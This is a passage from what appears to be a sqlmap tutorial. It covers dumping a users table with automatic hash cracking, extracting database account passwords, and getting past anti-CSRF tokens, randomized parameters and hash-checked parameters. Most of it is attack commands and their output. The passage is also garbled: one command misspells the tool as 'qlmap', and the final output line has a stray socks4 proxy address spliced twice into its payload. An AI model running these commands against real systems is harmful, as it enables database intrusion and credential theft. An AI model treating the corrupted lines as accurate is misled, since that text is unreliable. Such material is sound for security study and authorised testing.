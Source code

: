 ## Password Enumeration and Cracking 

Once we identify a table containing passwords we can retrieve that table with the `-T` option:
```console
zero@pio$ sqlmap -u "http://www.example.com/?id=1" --dump -D master -T users
```

Automatically it will crack the hashes.

## DB Users Password Enumeration and Cracking 

Apart from user credentials found in DB tables, we can also attempt to dump the content of system tables containing database-specific credentials (`--passwords`):
```console
zero@pio$ sqlmap -u "http://www.example.com/?id=1" --passwords --batch
```

> The `-all` flag with `--batch` will automatically do all the enumeration process.
{: .prompt-tip}

---

# Bypassing Web Application Protections 

## Anti-CSRF Token Bypass 

To bypass a CSRF token we can use the flag `--csrf-token`:
```console
zero@pio$ sqlmap -u "http://www.example.com/" --data="id=1&csrf-token=WfF1szMUHhiokx9AHFply5L2xAOfjRkE" --csrf-token="csrf-token"
```

## Unique Value Bypass 

In some cases, the web application may only require unique values to be provided inside predefined parameters. Such a mechanism is similar to the anti-CSRF technique described above, except that there is no need to parse the web page content. We can use the flag `--randomize`:
```console
zero@pio$ qlmap -u "http://www.example.com/?id=1&rp=29125" --randomize=rp --batch -v 5 | grep URI

URI: http://www.example.com:80/?id=1&rp=99954
URI: http://www.example.com:80/?id=1&rp=87216
URI: http://www.example.com:80/?id=9030&rp=36456
URI: http://www.example.com:80/?id=1.%2C%29%29%27.%28%28%2C%22&rp=16689
URI: http://www.example.com:80/?id=1%27xaFUVK%3C%27%22%3EHKtQrg&rp=40049
URI: http://www.example.com:80/?id=1%29%20AND%209368%3D6381%20AND%20%287422%3D7422&rp=95185
```

## Calculated Parameter Bypass 

Another similar mechanism is where a web application expects a proper parameter value to be calculated based on some other parameter value(s). We can use the flag `--eval`:
```console
zero@pio$ sqlmap -u "http://www.example.com/?id=1&h=c4ca4238a0b923820dcc509a6f75849b" --eval="import hashlib; h=hashlib.md5(id).hexdigest()" --batch -v 5 | grep URI

URI: http://www.example.com:80/?id=1&h=c4ca4238a0b923820dcc509a6f75849b
URI: http://www.example.com:80/?id=1&h=c4ca4238a0b923820dcc509a6f75849b
URI: http://www.example.com:80/?id=9061&h=4d7e0d72898ae7ea3593eb5ebf20c744
URI: http://www.example.com:80/?id=1%2C.%2C%27%22.%2C%28.%29&h=620460a56536e2d32fb2f4842ad5a08d
URI: http://www.example.com:80/?id=1%27MyipGP%3C%27%22%3EibjjSu&h=db7c815825b14d67aaa32da09b8b2d42
URI: http://www.example.com:80/?id=1%29%20AND%209978%socks4://177.39.187.70:33283ssocks4://177.39.187.70:332833D1232%20AND%20%284955%3D4955&h=02312acd4ebe69e2528382dfff7fc5cc
```
